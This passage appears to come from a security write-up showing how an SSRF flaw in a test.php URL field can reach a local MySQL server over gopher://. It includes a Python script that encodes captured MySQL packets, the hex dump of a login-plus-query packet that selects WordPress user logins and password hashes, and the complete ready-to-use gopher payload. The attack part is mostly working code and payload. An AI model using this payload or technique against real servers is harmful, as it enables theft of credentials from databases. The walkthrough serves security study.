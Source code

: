 The mentioned article shows us how to simulate the MySQL request in a local environment, retrieve data transmitted and replay them. This means that MariaDB has no specific protection against regame or authenticity.


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_10.gif)


Displayed bytes at the end of the above GIF will be used as payload to get the username and hashed password from the WordPress database. With a little python script, stolen to our asian friends, I will be able to generate the complete payload:

```python
#!/usr/bin/python2

def result(s):
  a = [s[i:i+2] for i in xrange(0, len(s), 2)]
  return "gopher://127.0.0.1:3306/_%" + "%".join(a)

if __name__ == "__main__":
  import sys
  s = sys.argv[1]
print result(s)
```

In fact, this python script will just add `gopher://127.0.0.1:3306/_` in front of our payload and add a `%` every two characters. Otherwise, the web server will not take the data as hex data.

```bash
host $ cat ssrf_mysql2 | xxd -p | tr -d '\n'
ac00000185a23f000000000121000000000000000000000000000000000000000000000077705f6d7973716c5f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404393230360f5f636c69656e745f76657273696f6e0731302e312e3337095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c300000000373656c65637420757365725f6c6f67696e2c757365725f706173732066726f6d2077705f64622e77705f75736572730100000001

host $ ./parse.py ac00000185a23f000000000121000000000000000000000000000000000000000000000077705f6d7973716c5f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404393230360f5f636c69656e745f76657273696f6e0731302e312e3337095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c300000000373656c65637420757365725f6c6f67696e2c757365725f706173732066726f6d2077705f64622e77705f75736572730100000001
gopher://127.0.0.1:3306/_%ac%00%00%01%85%a2%3f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%77%70%5f%6d%79%73%71%6c%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%39%32%30%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%33%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%30%00%00%00%03%73%65%6c%65%63%74%20%75%73%65%72%5f%6c%6f%67%69%6e%2c%75%73%65%72%5f%70%61%73%73%20%66%72%6f%6d%20%77%70%5f%64%62%2e%77%70%5f%75%73%65%72%73%01%00%00%00%01
```

By filling the "URL" input of `test.php` with our ugly payload, there is a nice return in front of our eyes: 


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_11.png)

